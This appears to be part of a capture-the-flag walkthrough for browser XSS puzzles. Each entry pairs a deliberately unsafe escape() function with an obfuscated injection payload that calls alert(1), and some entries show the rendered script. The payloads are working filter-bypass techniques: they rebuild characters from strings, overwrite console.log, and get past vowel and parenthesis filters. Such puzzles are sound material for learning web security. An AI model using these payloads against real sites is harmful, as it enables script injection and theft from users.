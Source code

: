 ```
'+Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}1${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```+'
```


## No

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
// submitted by Stephen Leppik

function escape(s) {
    s = s.replace(/[()`<]/g, ''); // no function calls

    return '<script>\n' +
           'var string = "' + s + '";\n' +
           'console.log(string);\n' +
           '</script>';
}
```

- Solution

```
";string=1;console.log=alert//
```

- Output

```
<script>
var string = "";string=1;console.log=alert//";
console.log(string);
</script>
```

## K'Z'K

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```
